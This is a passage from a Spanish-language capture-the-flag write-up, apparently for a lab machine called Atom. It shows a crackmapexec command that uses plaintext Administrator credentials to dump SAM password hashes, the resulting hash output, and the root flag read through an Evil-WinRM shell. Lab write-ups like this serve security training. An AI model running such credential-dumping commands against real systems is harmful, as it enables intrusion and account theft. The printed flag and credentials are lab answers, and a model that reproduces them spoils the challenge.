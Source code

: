 Ya por útlimo, podríamos dumpear los hashes del archivo SAM de los usuarios del sistema:

```bash
> crackmapexec smb 10.129.173.50 -u Administrator -p kidvscat_admin_@123 -d ATOM --sam
SMB         10.129.173.50   445    ATOM             [*] Windows 10 Pro 19042 x64 (name:ATOM) (domain:ATOM) (signing:False) (SMBv1:True)
SMB         10.129.173.50   445    ATOM             [+] ATOM\\Administrator:kidvscat_admin_@123 (Pwn3d!)
SMB         10.129.173.50   445    ATOM             [+] Dumping SAM hashes
SMB         10.129.173.50   445    ATOM             Administrator:500:aad3b435b51404eeaad3b435b51404ee:7df7256dc47d2125d825058b2f89ff38:::
SMB         10.129.173.50   445    ATOM             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.173.50   445    ATOM             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.173.50   445    ATOM             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e3f92dc41d4f0be7e38ed5f0db92c356:::
SMB         10.129.173.50   445    ATOM             jason:1002:aad3b435b51404eeaad3b435b51404ee:499aef4877d2d83e548a3e8f5f742ffe:::
SMB         10.129.173.50   445    ATOM             [+] Added 5 SAM hashes to the database
```

### Root Flag

Una vez hemos obtenido shell privilegiada con usuario Administrator, podemos visualizar la flag root.txt:

```bash
> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
ecb6df7498c0776c87c28999b6022760
```
